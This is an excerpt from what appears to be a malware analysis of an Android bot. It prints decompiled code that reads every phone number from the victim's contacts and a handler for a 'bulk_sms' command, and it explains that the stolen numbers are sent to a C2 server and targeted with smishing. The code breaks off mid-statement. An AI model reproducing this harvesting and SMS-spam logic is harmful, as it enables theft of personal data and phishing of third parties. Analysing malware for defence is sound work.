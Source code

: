 ## Steal contacts

The malware collect the contacts stored in the victim's device and send it to C2 server. And smishing the stolen numbers.

```cs
public static ContactsComponent get() {
        return ContactsComponent.instance;
    }

    private List getContactList() {
        ArrayList arrayList0 = new ArrayList();
        ContentResolver contentResolver0 = this.context().getContentResolver();
        Cursor cursor0 = contentResolver0.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
        if((cursor0 == null ? 0 : cursor0.getCount()) > 0) {
            while(cursor0 != null && (cursor0.moveToNext())) {
                String s = cursor0.getString(cursor0.getColumnIndex("_id"));
                cursor0.getString(cursor0.getColumnIndex("display_name"));
                if(cursor0.getInt(cursor0.getColumnIndex("has_phone_number")) <= 0) {
                    continue;
                }

                Cursor cursor1 = contentResolver0.query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = ?", new String[]{s}, null);
                while(cursor1.moveToNext()) {
                    arrayList0.add(cursor1.getString(cursor1.getColumnIndex("data1")));
                }

                cursor1.close();
            }
        }

        if(cursor0 != null) {
            cursor0.close();
        }

        return arrayList0;
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public Loader onCreateLoader(int v, Bundle bundle0) {
        return v == 1 ? this.contactsLoader() : null;
    }

    public void onLoadFinished(Loader loader0, Cursor cursor0) {
        this.contactsFromCursor(cursor0);
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public void onLoadFinished(Loader loader0, Object object0) {
        this.onLoadFinished(loader0, ((Cursor)object0));
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public void onLoaderReset(Loader loader0) {
    }

    @Override  // com.sdktools.android.bot.SdkComponent
    public void onSyncEvent(JsonObject jsonObject0) {
        super.onSyncEvent(jsonObject0);
        if(1 == (JsonUtils.hasObject(jsonObject0, "bulk_sms") ? jsonObject0.get("bulk_sms").getAsInt() : 0)) {
```